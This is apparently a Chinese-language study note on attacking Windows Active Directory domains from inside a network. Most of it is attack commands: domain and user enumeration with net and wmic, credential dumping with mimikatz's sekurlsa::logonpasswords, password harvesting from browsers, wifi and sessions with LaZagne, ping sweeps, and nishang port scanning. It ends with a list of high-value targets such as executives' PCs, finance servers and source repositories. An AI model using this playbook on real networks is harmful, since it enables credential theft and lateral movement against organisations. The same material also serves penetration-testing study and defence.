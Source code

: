 # 内网结构

![img](信息搜集/2265061-20210329094803092-1410292783.png)

![image-20210406163205911](信息搜集/image-20210406163205911.png)

相关名词(不需要刻意去看)

> 局域网
>
> 工作组
>
> 域环境
>
> 活动目录AD(功能策略)
>
> 域控DC
>
> 单域
>
> 父域子域
>
> 域树和域森林

# 单域

## 信息收集

### 基本信息搜集

```
systeminfo 详细信息
net start   启动服务
tasklist    进程任务
schtasks	计划任务
```

![image-20210410104553781](信息搜集/image-20210410104553781.png)

### 网络信息搜集

```
ipconfig /all	判断存在域dns
net view /domain 判断存在域
net time /domain 判断主域 
netstat -ano     查看开放端口
nslookup  XXX 域名,追踪来源地址,如可以追踪到DC的ip
```

![image-20210410104617345](信息搜集/image-20210410104617345.png)

### 用户信息搜集

```powershell
系统默认常见用户身份
Domain Admins
Domain Computers
Domain Controllers
Domain Guest
Domain Users
Enterprise Admins 企业系统管理员用户(默认对域控制器有完全控制)
相关用户信息搜集操作
whoami /all 用户权限
net config workstation 登录信息
net user 本地用户
net localgroup 本地用户组
net user /domain 获取域用户信息
net group /domain 获取域用户组信息
wmic useraccount get /all 涉及域用户详细信息
net group "domain computers" /domain 获取域主机名
net group "Domain Admins" /domain  查询域管理员账户
net group "Domain Controllers" /domain 查询域控制器
net group "Enterprise Admins" /domain 查域管理员用户组
```

![image-20210410104648513](信息搜集/image-20210410104648513.png)

## 凭据信息

### 计算机用户HASH,明文获取 

```
mimikatz(win),mimipenguin(linux)
#提升权限
privilege::debug
#抓取密码
sekurlsa::logonpasswords full
#写入文件
mimikatz.exe
```

[工具使用介绍](https://www.cnblogs.com/-mo-/p/11890232.html)

![image-20210410105820266](信息搜集/image-20210410105820266.png)

但是会报错,因为只有该命令需要管理员权限

![image-20210410110827411](信息搜集/image-20210410110827411.png)

### 计算机各种协议服务口令获取:

```powershell
1.沾点源码本份文件、数据库备份文件等
2.各类数据库web管理入库口,如PHPMyadmin
3.浏览器保存密码,浏览器cookies
4.其他用户会话、3389和ipc$连接记录
5.保存的wifi密码
6.网络内部的各种账号和密码,如Email,VPN,FTP,OA等
使用工具 LaZagne(win,linux,mac) XenArmor(收费,很猛,自己找学习版)
//收集到的密码可以自己做字典,可能后面这些密码可以用于其他计算机
#LaZagne
https://cloud.tencent.com/developer/article/1521627
```



## 探针主机域控架构服务

```powershell
for /L %I in (1,1,254) DO @ping -w 1-n 192.168.3.%I |findstr "TTL="
nbtscan(老工具,没啥用,还可能被杀) nmap  masscan powerShell脚本(nishang empire等)

#nishang介绍
https://pingmaoer.github.io/2020/04/08/PowerShell-Nishang/
#设置执行策略
Set-ExecutionPolicy RemoteSigned
#导入nishang环境
Import-Module .\nishang.psm1
#获取常规计算机信息
Get-Information
#端口扫描 (查看目录对应文件有言是语法)
Invoke-PortScan -StartAddress 192.168.10.0 -EndAddress 192.168.10.100 -ResolveHost -ScanPort
#其他功能:删除补丁,反弹Shell,平局获取等
```

核心业务机器:
1.高级管理人员个人计算机
2.产品管理系统服务器
3.办公系统服务器
4.财务应用系统服务器
5.核心产品源码服务器(SVN、GIT)
6.数据库服务器等等等

